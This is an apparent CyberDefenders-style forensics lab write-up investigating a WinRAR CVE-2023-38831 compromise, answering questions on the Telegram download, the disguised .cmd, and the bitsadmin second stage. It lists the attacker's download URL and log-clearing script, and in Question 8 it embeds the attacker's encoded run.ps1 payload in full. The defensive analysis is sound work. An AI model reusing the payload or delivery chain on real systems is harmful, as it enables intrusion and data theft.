<div align="center">
<h1>SpottedInTheWild — Endpoint Forensics - Hard</h1>
</div>

##  Scenario
You are part of the incident response team at FinTrust Bank. This morning, the network monitoring system flagged unusual outbound traffic patterns from several workstations. Preliminary analysis by the IT department has identified a potential compromise linked to an exploited vulnerability in WinRAR software.

> **Artifact:** `C125-SpottedInTheWild.vhd`

A `.vhd` file is a disk image that replicates a physical hard drive. It acts like a real hard drive, containing partitions and a file system. We can parse its data using Autopsy.

<br>

##  Question 1

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
In your investigation into the FinTrust Bank breach, you found an application that was the entry point for the attack. <b>Which application was used to download the malicious file?</b>
</td>
</tr>
</table>

<br>

Navigating to the allocated partition, we can observe that there is only one user, which is the **Administrator**.

<div align="center">
  
  <br>
</div>

Moving to the Desktop folder, there is a `Telegram.lnk` shortcut.

<div align="center">
  
</div>

This artifact indicates that the user has **Telegram Desktop** installed. A quick search revealed that Telegram Desktop stores downloaded files under: **C:\\Users\\YourUserName\\Downloads\\Telegram Desktop**

<div align="center">
  
</div>

Go to the folder, we can see an archive.

<div align="center">
  
</div>

Extract the file and upload it to VirusTotal, here is the result we get.

<div align="center">
  
</div>

> Answer: Telegram

<br>

##  Question 2

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Finding out when the attack started is critical. What is the UTC timestamp for when the suspicious file was first downloaded?</b>
</td>
</tr>
</table>

<br>

Looking at the created date of the file, we got the answer.

<div align="center">
  
</div>

> Answer: 2024-02-03 07:33:20

<br>

##  Question 3

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Knowing which vulnerability was exploited is key to improving security. What is the CVE identifier of the vulnerability used in this attack?</b>
</td>
</tr>
</table>

<br>

Examining the VirusTotal's result we got from the last question, we found out that the vulnerability exploited is CVE-2023-38831.

The attack-flow of this CVE is:
Attackers create a special archive containing a harmless file (such as an image) alongside a folder that shares that exact file name. Inside the matching folder, they place hidden executable scripts or command files. When the victim clicks to view the harmless file, the software mistakenly runs the hidden script from the folder instead.
> Answer: CVE-2023-38831

<br>

##  Question 4

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
In examining the downloaded archive, you noticed a file in with an odd extension indicating it might be malicious. What is the name of this file?</b>
</td>
</tr>
</table>

<br>

Extracting the file, we got this suspicious .cmd file

<div align="center">
  
</div>

> Answer: SANS SEC401.pdf .cmd

<br>

##  Question 5

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Uncovering the methods of payload delivery helps in understanding the attack vectors used. What is the URL used by the attacker to download the second stage of the malware?</b>
</td>
</tr>
</table>

<br>

Opening the .cmd file using Notepad++, we got an unreadable obfuscated script.

<div align="center">
  
</div>

Using **strings** to print the readable text from the .cmd, we got this result

<div align="center">
  
</div>

Some noticable strings are:

**//172.18.35.10:8000/amanwhogetsnorest.jpg**

**\\Windows\\Temp\\z.ps1**

**\\Windows\\Temp\\run.bat**

**\\Windows\\Temp\\Eventlogs.ps1**

**amanwhogetsnorest.jpg**

Getting back to VirusTotal's result, by inspecting its behaviour especially on the persistence tab, we found out that it downloaded **amanwhogetsnorest.jpg** via bitsadmin

<div align="center">
  
</div>

> Answer: http://172.18.35.10:8000/amanwhogetsnorest.jpg

<br>

##  Question 6

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
To further understand how attackers cover their tracks, identify the script they used to tamper with the event logs. What is the script name?</b>
</td>
</tr>
</table>

<br>

As in the previous question, there was a suspicious powershell script named **Eventlogs.ps1**. We can check its behaviour using **$J** - an USN journal log artifact. Parsing using Eric Zimmerman's **MFTECmd**, we have the record of its changes

<div align="center">
  
</div>

Checking the **Security.evtx** also give us an insight of what it does since the script is no where to be found

<div align="center">
  
</div>

The most noticable action performed inspecting the .evtx is that the script attempted to clear the log.

> Answer: Eventlogs.ps1

<br>

##  Question 7

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Knowing when unauthorized actions happened helps in understanding the attack. What is the UTC timestamp for when the script that tampered with event logs was run?</b>
</td>
</tr>
</table>

<br>

As from the script inspection from the previous question, the answer is contained in the parsed data of %J

> Answer: 2024-02-03 07:38:01

<br>

##  Question 8

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
To understand the attacker's data exfiltration strategy, we need to locate where they stored their harvested data. What is the full path of the file storing the data collected by one of the attacker's tools in preparation for data exfiltration?</b>
</td>
</tr>
</table>

<br>

After some more further examination on VirusTotal, we found out that the malware attempted to execute a file named **run.bat**.

<div align="center">
  
</div>

Parsing the %MFT using MFTECmd, we managed to find the record of the file itself

<div align="center">
  
</div>

Navigating to the location, we found the run.bat and another suspicious powershell script

<div align="center">
  
</div>

Examining the **run.bat**, we noticed that it has a connection to **run.ps1**

Checking the **run.ps1** revealed a obfuscated script
<div align="center">
  
</div>

Creating a script to defuse it, [`asd.py`](./Scripts/asd.py):

````python
import sys
import base64


def decode(encoded: str) -> str:
    reversed_str = encoded[::-1]

    decoded_bytes = base64.b64decode(reversed_str)

    return decoded_bytes.decode("utf-8", errors="replace")


def main():
    if len(sys.argv) > 1:
        encoded = sys.argv[1]
    else:
        ENCODED_STRING = "K0AVFdEIk9Ga0VWTtAiIyFmdk8CMwADO6UjLx4CO2EjLykTMv8iOwRHdoJCIpJXVtACdzVWdxVmUiV2VtU2avZnbJpQDpkSZslmR0VHc0V3bkgyclRXeCxGbBRWYlJlO60VZslmRu8USu0WZ0NXeTtFKn5WayR3U0YTZzFmQvRlO60FdyVmdu92Qu0WZ0NXeTtFI9AichZHJK0gIlxWaGRXdwRXdvRCIvRHIkVmdhNHIzRHb1NXZyBibhN2UiACdz9GStUGdpJ3VK0gCN0nCN0HIgACIK0QZslmR0VHc0V3bkACa0FGUlxWaG1CIk5WZwBXQtASZslmRtQXdPBCfgIiLl5WasZmZvBycpBCUJRnblJnc1NGJgQ3cvhkIgACIgACIgAiCNIiLl5WasZmZvBycpBCUJRnblJnc1NGJgQ3cvhkIgQ3cvhULlRXaydFIgACIgACIgoQD7BSZzxWZg0HIgACIK0QZslmR0VHc0V3bkACa0FGUlxWaG1CIk5WZwBXQtASZslmRtQXdPBCfgIiLl5Was52bgMXagAVS05WZyJXdjRCI0N3bIJCIgACIgACIgoQDi4SZulGbu9GIzlGIQlEduVmcyV3YkACdz9GSiACdz9GStUGdpJ3VgACIgACIgAiCNsHIpwGb15GJgUmbtACdsV3clJHJoAiZpBCIgAiCNoQDlVnbpRnbvNUesRnblxWaTBibvlGdjFkcvJncF1CIxACduV3bD1CIQlEduVmcyV3YkASZtFmTyVGd1BXbvNULg42bpR3Yl5mbvNUL0NXZUBSPgQHb1NXZyRCIgACIK0gI05WZyJXdjRSKpEDIrASKn4yJoY2T4VGZulEdzFGTuAVS0JXY0NHJgwCMocmbpJHdzJWdT5CUJRnchR3ckgCJiASPgAVS05WZyJXdjRCIgACIK0wegkyKrQnblJnc1NGJgsDZuVGJgUGbtACduVmcyV3YkAyO0JXY0NHJg0DI05WZyJXdjRCKgI3bmpQDK0QXzsVKoMXZ0lnQzNXZyRGZBRXZH5SKQlEZuVGJoU2cyFGU6oTXzNXZyRGZBBVSuQXZO5SblR3c5N1Wg0DIk5WZkoQDdNzWpgyclRXeCN3clJHZkFEdldkLpAVS0JXY0NHJoU2cyFGU6oTXzNXZyRGZBBVSuQXZO5SblR3c5N1Wg0DI0JXY0NHJK0gCNICd4RnL2UzM0wkQcBXblRFXsF2YvxEXhRXYEBHcBxVZslmZvJHUyV2cVpjduVGJiASPgUGbpZEd1BHd19GJK0gI5kjLx4CO2EjLykTMiASPgAVSk5WZkoQDiEjLx4CO2EjLykTMiASPgAVS0JXY0NHJ"  
        encoded = ENCODED_STRING

    try:
        result = decode(encoded)
    except Exception as e:
        print(f"[!] Failed to decode: {e}", file=sys.stderr)
        sys.exit(1)

    print(result)


if __name__ == "__main__":
    main()
````
And we got the final result

<div align="center">
  
</div>

> Answer: C:\Users\Administrator\AppData\Local\Temp\BL4356.txt
